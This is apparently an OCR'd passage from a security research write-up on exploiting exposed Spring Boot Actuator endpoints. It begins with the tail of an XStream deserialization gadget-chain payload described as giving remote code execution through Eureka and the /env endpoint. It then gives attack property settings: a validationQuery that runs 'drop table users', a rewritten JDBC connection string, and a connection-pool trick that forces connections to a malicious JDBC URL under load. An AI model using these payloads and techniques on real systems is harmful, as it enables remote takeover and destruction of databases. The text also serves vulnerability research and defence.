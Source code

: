                     <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>

This XStream payload is a slightly modified version of the ImageIO JDK-only gadget chain from the Marshalsec research. The only difference here is using LinkedHashSet to trigger the 'jdk.nashorn.internal.objects.NativeString.hashCode()' method. The original payload leverages java.lang.Map to achieve the same behaviour, but Eureka's XStream configuration has a custom converter for maps which makes it unusable. The payload above does not use Maps at all and can be used to achieve Remote Code Execution without additional constraints.

Using Spring Actuators, you can actually exploit this vulnerability even if you don't have access to an internal Eureka server; you only need an "/env" endpoint available.

Other useful settings:

spring.datasource.tomcat.validationQuery=drop+table+users - allows you to specify any SQL query, and it will be automatically executed against the current database. It could be any statement, including insert, update, or delete.
Exploiting Spring Boot Actuators Drop Table

spring.datasource.tomcat.url=jdbc:hsqldb:https://localhost:3002/xdb - allows you to modify the current JDBC connection string.

The last one looks great, but the problem is when the application running the database connection is already established, just updating the JDBC string does not have any effect. Hopefully, there is another property that may help us in this case:

spring.datasource.tomcat.max-active=777

The trick we can use here is to increase the number of simultaneous connections to the database. So, we can change the JDBC connection string, increase the number of connections, and after that send many requests to the application to simulate heavy load. Under the load, the application will create a new database connection with the updated malicious JDBC string. I tested this technique locally agains Mysql and it works like a charm.
Exploiting Spring Boot Actuators Max Active

Apart from that, there are other properties that look interesting, but, in practice, are not really useful:

spring.datasource.url - database connection string (used only for the first connection)
